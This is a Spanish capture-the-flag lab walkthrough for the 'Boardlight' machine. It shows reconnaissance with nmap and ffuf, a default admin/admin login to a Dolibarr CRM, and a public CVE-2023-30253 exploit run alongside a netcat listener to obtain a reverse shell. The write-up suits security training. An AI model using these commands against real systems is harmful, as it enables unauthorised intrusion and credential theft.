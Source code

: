 Maquina: Boardlight

Autor:

Dificultad: Facil

Iniciamos la máquina y verificamos la conexión

ping 10.129.135.122 -c 1

Enumeramos la maquina con nmap 

nmap -sV 10.129.135.122

En la web muestra 'Bienvenido a BOARDLIGHT' mantenida por Board.htb.

Abrimos el enlace y usamos Ffuf.

ffuf -w /usr/share/wordlists/dirb/big.txt -H "Host:FUZZ.board.htb" -u "http://board.htb/"

Encontramos el archivo index.php por lo que realizamos la búsqueda.

http://crm.board.htb/index.php

Es un panel de login por lo que probamos las credenciales más comunes. Probamos admin tanto para contraseña y usuario y nos deja iniciar sesión correctamente.

Revisamos la versión por Internet si tiene alguna vulnerabilidad. Efectivamente tiene una vulnerabilidad que intentaremos explotar haciendo una Reverse Shell.

"Copiemos esta versión y busquemos el exploit en Google, y encontrarás un exploit CVE-2023–30253.

https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253

Ejecutamos el script mientras nos ponemos en escucha para conectarnos.

python3 exploit.py http://crm.board.htb admin admin 10.10.14.101 4444

nc -lvnp 4444

En esta etapa, tras obtener la shell en la máquina objetivo, descubrimos que el flag no se encuentra en esta máquina en particular. En cambio, el objetivo ahora es buscar las credenciales del otro usuario en esta misma máquina que indagando por documentaciones de Dolibarr se llama Larissa.

